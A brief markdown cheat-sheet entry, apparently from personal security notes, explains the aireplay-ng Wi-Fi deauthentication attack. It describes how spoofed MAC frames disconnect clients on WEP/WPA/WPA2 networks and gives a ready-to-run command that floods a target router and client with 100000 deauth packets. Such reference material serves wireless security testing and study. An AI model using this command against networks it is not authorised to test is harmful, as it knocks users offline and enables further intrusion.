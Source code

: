 # aireplay-ng

- Disconnect any client from any network (`Deauthentication attack`)
- Works on encrypted networks WEP, WPA & WPA2
- No need to connect to the network
- What is done is:
  - You impersionate the MAC of the client with a "disconnect" signal and send to the router
  - You impersionate the MAC of the router with a "ok, disconnected" signal and send to the client

```sh
aireplay-ng "wlp3s0mon" \
  --deauth "100000" \ # number of packets to send (to the router and the client)
  -D \ # for 5GHz networks only (disable AP detection)
  -a "router-mac" \
  -c "client-mac"
```
